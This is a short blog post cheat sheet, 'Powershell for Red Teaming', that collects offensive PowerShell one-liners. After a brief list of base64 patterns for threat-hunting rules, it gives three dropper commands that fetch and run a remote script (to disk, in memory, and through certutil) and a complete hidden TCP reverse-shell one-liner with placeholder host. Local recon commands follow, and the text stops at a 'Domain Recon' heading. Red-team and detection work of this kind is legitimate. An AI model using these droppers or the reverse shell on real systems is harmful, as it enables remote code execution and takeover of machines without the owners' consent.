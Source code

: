 ```yaml
---
layout: post
title:  "Powershell for Red Teaming"
date:   2025-06-16 21:00:00 +1000
categories: scripts
---
```


## Red teaming powershell scripts. Droppers and more.

--- Threat Hunting Patterns ---
Base64 is deterministic. Meaning there is no randomness. So, identifying patterns is important when threat hunting and creating SIEM rules.
- SQBuAHYAbwBrAGUALQBX (Invoke-WebRequest)
- aQBlAHgAIAAoAE4AZQB3 (iex (New-Object Net.WebClient))

### Droppers
--- Unencoded Droppers ---
- ``` powershell -Command "Invoke-WebRequest -Uri 'https://google.com/safe-script.ps1' -OutFile $env:TEMP\Word.ps1; & $env:TEMP\Word.ps1" ``` (Downloads to disk)
- ``` powershell -Command "iex(New-Object Net.WebClient).DownloadString('https://google.com/safe-script.ps1')" ``` (Downloads to memory)
- ``` powershell -Command certutil -urlcache -split -f https://google.com/safe-script.ps1 payload.exe``` (LOLBAS Download)

### Reverse Shell One-Liners
--- TCP Rev Shell ---
- ``` powershell -NoP -NonI -W Hidden -Command "$c=New-Object Net.Sockets.TCPClient('RemoteIP',RemotePort);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){; $d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1 | Out-String);$r2=$r+'PS '+(pwd).Path+'> ';$sb=([text.encoding]::ASCII).GetBytes($r2);$s.Write($sb,0,$sb.Length)}" ```

### Recon Commands
--- Local Recon ---
- ```Get-Process```
- ```Get-LocalUser```
- ```Get-NetIPConfiguration```
- ```Get-NetTCPConnection | Where-Object {$_.State -eq "Listen"}```
- ```whoami /user```
- ```Get-LocalGroupMember -Group "Administrators"```
- ```Get-LocalGroup | ForEach-Object { Get-LocalGroupMember -Group $_.Name }```
- ```Get-SmbShare```
- ```net view \\hostname```
- ```Get-Service | Where-Object {$_.Status -eq 'Running'}```
--- Domain Recon ---